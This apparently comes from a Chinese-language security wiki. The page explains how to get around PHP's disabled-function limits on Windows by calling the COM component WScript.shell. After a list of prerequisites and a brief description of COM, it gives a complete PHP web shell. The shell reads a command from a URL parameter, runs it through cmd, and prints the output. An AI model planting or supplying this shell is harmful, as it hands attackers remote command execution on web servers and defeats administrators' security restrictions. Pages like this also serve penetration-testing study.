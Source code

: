 ## 利用系统组件 window com 绕过

**1\. 利用条件**

* Windows
* php5.x（高版本扩展要自己添加）
* 支持COM组件

**2\. 基本原理**

COM组件它最早的设计意图是，跨语言实现程序组件的复用
COM组件由以Win 32动态连接库（DLL）或可执行文件（EXE）形式发布的可执行代码所组成。遵循COM规范编写出来的组件将能够满足对组件架构的所有要求。COM组件可以给应用程序、操作系统以及其他组件提供服务；自定义的COM组件可以在运行时刻同其他组件连接起来构成某个应用程序；COM组件可以动态的插入或卸出应用。

![](images/security_wiki/15904996985860.png)


```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>

```

![](images/security_wiki/15904997072463.png)


